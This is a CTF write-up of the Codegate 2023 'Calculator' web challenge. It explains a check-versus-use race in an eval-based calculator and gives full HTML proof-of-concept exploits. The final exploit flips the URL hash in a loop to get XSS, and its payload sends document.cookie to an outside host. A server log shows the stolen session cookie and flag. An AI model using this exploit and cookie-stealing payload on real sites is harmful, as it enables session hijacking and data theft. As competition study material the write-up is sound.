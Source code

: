 # Calculator

This web challenge offered a simple JavaScript based calculator.
We are given full source code for the problem, which was greatly appreciated!

The problem consists of a webserver written in PHP and a JavaScript bot using chrome headless using puppeteer.

The webpage has very little functionality. It allows to register an account, then login to this account. Once logged in, one can use a calculator and finally submit a URL to the bot.

So I was interested what exactly the bot does. It logs into the website as `guest:guest`, sets the `FLAG` cookie with the flag as its value, and then visits the URL we provided. The cookie has the `httpOnly` flag set to false. So I assumed the goal was to get XSS in the calculator and then target the bot to extract the flag.

The interesting function was in `calculate.php`. It looks as follows:
```php
<script>
function sleep(ms) {
  return new Promise((r) => setTimeout(r, ms));
                
}
window.onhashchange = async ()=>{
    let code = atob(location.hash.slice(1));
    console.log(code);
    window.isDebug =  (await fetch("/api/debug.php").then((response)=>{
        return response.json();
    }).then((data)=>{
        return Number(data.isDebug);
    }));
    if(window.isDebug) {
        let result = eval(atob(location.hash.slice(1)));
        window.parent.postMessage({result: result, hacker: 0},"*");
    } else if(localStorage.getItem(code)) {
        let result = localStorage.getItem(code);
        window.parent.postMessage({result: result, hacker: 0},"*");
        localStorage.removeItem(code);
    } else {
        if(/!|@|#|\$|\^|&|_|;|\"|\'|\[|\]|\{|\}|[g-w]|[y-z]/.test(code)){
            alert("Are you hacker??");
            window.parent.postMessage({result: null, hacker: 1},"*");
            return;
        } else {
            let result = eval(atob(location.hash.slice(1)))
            console.log(result)
            localStorage.setItem(code, result);
            window.parent.postMessage({result: result, hacker: 0},"*");
        }
    }
}

</script>
```
Basically, it triggers whenever the hash fragment of the URL changes. The fragment contains the base64 encoded calculation we input into the calculator.

 There is a whole bunch of checks and actions that are performed when the `isDebug` variable is set. As the server always responsed with `false` and I didn't see a way to change this I ignored the checks for the time being.

If `isDebug` is not set, the function checks for dangeours characters in our calculation using a regex. If it matches any of those characters, the website displays a popup with the value "Are you a hacker??".
Otherwise, our input is passed to `eval`.  

At first glance it looks like it's not possible to trigger an XSS with those restrictions. I usually do pwn problems, so I noticed a pattern you sometimes see in kernel problems. 

Initialy, the code is taken from the hash fragment and base64 decoded: `let code = atob(location.hash.slice(1));`
Then, it is checked against the blacklist using the regex.

Finally the result does not use the code previsously sanitized, but it directly uses the hash fragment again: `let result = eval(atob(location.hash.slice(1)))`.

This looked like a TOCTOU / double fetch race condition. If we can change the fragment between the check and the evaluation, it should be possible to avoid the check an pass arbitrary characters to `eval`, thus achieving XSS.

I asked ChatGPT and @bluepichu if it's possible to change the hash fragment and they told me it is possible.

Thus, I started to create a PoC that switches the hash fragment from a benign one (`1+1`) to a malicious one (`alert(11)`).

```JavaScript
<!DOCTYPE html>
<html>
<head>
  <title>Modify Location Hash</title>
  <script>

    function sleep(ms) {
    return new Promise((r) => setTimeout(r, ms));
                    
    }

function modifyLocationHash() {
      // Open the website
      var url = "http://pwn20//api/calculate.php";
      var win = window.open(url);
      sleep(5000);

      // Modify the location.hash
      var newHash = "http://pwn20/api/calculate.php#mSsx";
      win.location = newHash;

      var newHash = "http://pwn20/api/calculate.php#YWxlcnQoMTEp";
      win.location = newHash;
      
    }
  </script>
</head>
<body>
  <h1>Modify Location Hash Example</h1>
  <button onclick="modifyLocationHash()">Open and Modify</button>
</body>
</html>
```

After too many runs, the payload finally triggered. So I started to send it against the server. For this, a proof or work had to be calculated each time and I almost went insane after submitting the exploit numerous times and not getting the flag.

Finally, @bluepichu suggested to just switch back and forth between the two hashes, instead of just doing the race once. He struggled to get the pow code running on his mac, but shortly before the competition ended I started to get a lot of requests from the bot with the flag cookie. Luckily, I was not logged out of the CTF website and could submit the flag 1 minute before the deadline!

Afterwards I modified my exploit to work as well. This was the final XSS payload: `document.location="http://p3.yt/?ppp="+document.cookie`
```JavaScript
<!DOCTYPE html>
<html>
<head>
  <title>Modify Location Hash</title>
  <script>

    function sleep(ms) {
        return new Promise((r) => setTimeout(r, ms));                
    }

    host = "web"
    //host = "15.165.237.22"
    //host = "pwn20"

    async function benign(win){
        win.location = "http://"+host+"/api/calculate.php#mSsx";
    }

    async function evil(win){
        win.location = "http://"+host+"/api/calculate.php#ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9wMy55dC8/cHBwPSIrZG9jdW1lbnQuY29va2ll";
    }

    async function modifyLocationHash() {
      // Open the website
      var url = "http://"+host+"/api/calculate.php"
      var win = window.open(url);
      await sleep(1000);

      // Modify the location.hash

      for (let i = 0; i < 10000; i++) {
        benign(win);
        await sleep(2);
        evil(win);
        await sleep(2);
      }
    }
    
  </script>
</head>
<body onload="modifyLocationHash()">
  <h1>Modify Location Hash Example</h1>
</body>
</html>
```

After submitting the exploit, the worker bot connected to my server and sent the flag cookie:
```bash
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
15.165.237.22 - - [18/Jun/2023 15:06:02] "GET /exploit.html HTTP/1.1" 200 -
15.165.237.22 - - [18/Jun/2023 15:06:03] "GET /?ppp=PHPSESSID=1e3e89007dbc1d736da6fcbd74dfe81c;%20FLAG=codegate2023{056a7969[CUT]7ee9a3664} HTTP/1.1" 200 -
```

Thanks again to @bluepichu for coming in clutch last minute by fixing the exploit!
